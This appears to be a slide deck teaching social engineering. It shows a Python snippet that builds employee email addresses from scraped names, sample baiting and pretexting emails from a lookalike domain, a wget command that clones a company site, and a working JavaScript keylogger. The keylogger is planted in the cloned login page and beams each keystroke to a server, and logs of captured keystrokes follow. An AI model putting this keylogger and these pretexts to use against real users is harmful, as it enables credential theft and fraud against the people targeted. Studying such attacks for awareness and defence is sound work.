

# Social Engineering

---

# Overview

What is social engineering? How can it be used?

Types of social engineering

- Phishing attacks 
- Baiting 
- Tailgating 
- Pretexting 

---

# Scraping emails

Scraping facebook

---
# Scraping content

## Snippet below

	!python
	for line in rawNames:
        if nameNext:
                email = "{0}{1}{2}".format(line.split()[0][0], \
					line.split()[1], "@company.com")
                emails.append(email)
        if len(line.split()) == 0:
                nameNext = True
        else:
                nameNext = False	

---
# Snippet of scrapped emails

DAyrey@company.com

VRodden@company.com

CCoffie@company.com

TWerner@company.com

JMehta@company.com

JBrady@company.com

RPerce@company.com

DShah@company.com

ZAdam@company.com

ASzarek@company.com

GDella@company.com

---

# Baiting

	from:	Dylan Ayrey <dayrey@cmopany.com>
	to:	 <CCoffine@company.com>, <DSomeson@cmopany.com>, <GDella@company.com> ... 

        Would any other intern be interested in a Kayak trip? There's a place 
        downtown that'll take us for $50 a head if we can get 10 people

---

### (Still the attacker)
	from:   David Someson <DSomeson@cmopany.com>
	to:      <CCoffine@company.com>, <dayrey@cmopany.com>, <GDella@company.com> ...      
	
        Yeah! That sounds like a lot of fun!

---

	from:   Dylan Ayrey <dayrey@cmopany.com>
	to:      <CCoffine@company.com>, <DSomeson@cmopany.com>, <GDella@company.com> ...

        Okay cool! I setup a paypal account at this email (dayrey@cmopany.com), 
        once we get 10 people we can go!

---

	from:   Chris Hanson <CHanson@cmopany.com>
	to:      <CCoffine@company.com>, <DSomeson@cmopany.com>, <GDella@company.com> ...

        Nice! I just sent the money. Can't wait.

---
# Tailgating

---

# Pretexting

Complex back stories to trick people into performing actions

## Scenario

	from:   Chris Hanson <CHanson@cmopany.com>
	to:      <CCoffine@company.com>, <DSomeson@cmopany.com>, <GDella@company.com> ...

        We are migrating databases from a non-relational database to a 
	relational database. Please try logging in and let me know if you
	have any issues http://company.com

Hyperlink linkes to http://cmopany.com

---

# Cloning the target
	
	!bash
	wget -r -l 2 -k -p -E -U "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36" www.company.com

- '-r': Recursive download. Grabs all references through the markup such as href and src. If the freshly downloaded file is also of type text/html, application/xhtml+xml, or text/css, it will be parsed and followed further.
- '-l': Sets the limit on -r to only traverse l levels (in this case 2)
- '-k': Converts absolute links to relative links to make them work locally
- '-p': Grabs static files and images (not html) one level deeper than the -l limit
- 'E': Appends extensions to the filenames such as '.html' 
- 'U': User agnet string (to look like requests are from google chrome)

---

# The keylogger

	!javascript
	document.onkeypress = function(e) {
			var get = window.event ? event : e;
			var key = get.keyCode ? get.keyCode : get.charCode;
			key = String.fromCharCode(key);
    			new Image().src = 'http://localhost:8000/keypress?key=' + key;
	}
---

# Where to place?

Anywhere? Everywhere? Let's try the login page

	!html
	

Place that somewhere in the DOM of the login page, and make sure the keylogger.js file is in the accounts directory

---

# Run the server

in the www.company.com directory run:

	!bash
	python -m SimpleHTTPServer

visit localhost:8000 and login

---

# Results

	127.0.0.1 - - [28/May/2015 13:32:01] "GET /keypress?key=h HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:01] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:01] "GET /keypress?key=e HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:01] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:01] "GET /keypress?key=l HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:02] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:02] "GET /keypress?key=l HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:02] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:02] "GET /keypress?key=o HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:02] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:02] "GET /keypress?key=w HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=o HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=r HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=l HTTP/1.1" 404 -
	127.0.0.1 - - [28/May/2015 13:32:03] code 404, message File not found
	127.0.0.1 - - [28/May/2015 13:32:03] "GET /keypress?key=d HTTP/1.1" 404 -

---

#Questions?
